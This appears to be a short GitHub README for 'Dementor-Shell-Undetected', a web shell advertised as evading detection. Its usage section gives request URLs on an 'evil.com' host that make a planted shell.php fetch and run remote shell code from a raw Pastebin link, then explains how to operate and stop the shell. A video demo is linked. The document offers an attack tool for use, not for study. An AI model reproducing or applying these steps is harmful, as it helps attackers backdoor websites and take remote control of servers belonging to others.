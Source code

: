 # Dementor-Shell-Undetected

Mini Shell URL: http://pastebin.com/raw/5KRBakK8

Usage: https://evil.com/shell.php?start=http://pastebin.com/raw/5KRBakK8

And then use the shell as https://evil.com/shell.php

If you want to stop the shell just put https://evil.com/shell.php?stop

## Video Demo:

[![VideoURL](https://i.ibb.co/GJXHBX3/download.png)](https://www.youtube.com/watch?v=StTqXEQ2l-Y "Video URL")
